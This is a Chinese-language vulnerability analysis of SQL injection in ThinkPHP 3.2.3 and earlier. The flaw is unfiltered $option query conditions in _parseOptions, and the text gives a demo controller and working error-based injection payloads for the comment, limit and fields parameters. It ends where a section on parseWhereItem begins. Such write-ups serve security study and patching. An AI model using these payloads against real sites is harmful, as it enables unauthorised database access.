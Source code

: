 ### 2.ThinkPHP/Library/Think/Model.class.php::_parseOptions未过滤$option导致Sql注入

> wooyun-2014-088251

#### - 利用条件

版本范围：ThinkPHP <= 3.2.3

#### - 漏洞原理和分析

$option查询条件可以不经过数据处理直接传入_parseOption，再带入`Driver.class.php`的sql操作函数，如select、delete、find的方法。主要通过`buildSelectSql`方法或直接调用`delete`等方法进行拼接sql语句中，然后带入`execute`执行。

#### - 漏洞复现

- demo构造

```php
public function optionSql()
{
        $id = I('id');
        //$res = M('user')->find($id);
        //$res = M('user')->delete($id);
        $res = M('user')->select($id);
        //连接数据库后实例化user模型类，对应数据库的user表
}

```

说明：delete操作比select和find操作受限

- PoC

  举例三个不太好构造的，其他的是什么where语句的条件，对应的函数就是什么parseXXX。

  - comment -- parseComment

  `id[comment]=\*/where 1 and updatexml(1,concat(0x7e,user(),0x7e),1)/\*`

  - limit

  `id[limit]=1,1+procdure+analyse(updatexml(1,concat(0x7e,user(),0x7e),1),1)--`

  - fields：传入的where查询条件不能为数组否则会被_parseOption if判断过滤

  `id[fields]=* from user where 1 and updatexml(1,concat(0x7e,user(),0x7e),1) --+`

### 3. ThinkPHP\Library\Think\Db\Driver.class.php::parseWhereItem未过滤处理where查询表达式

> WooYun-2014-87731(BETWEEN表达式)、WooYun-2014-86737、wooyun-2014- 086968(EXP表达式）、WooYun-2014-86742(EQ/NEQ/GT表达式)	

#### - 利用条件

版本范围：
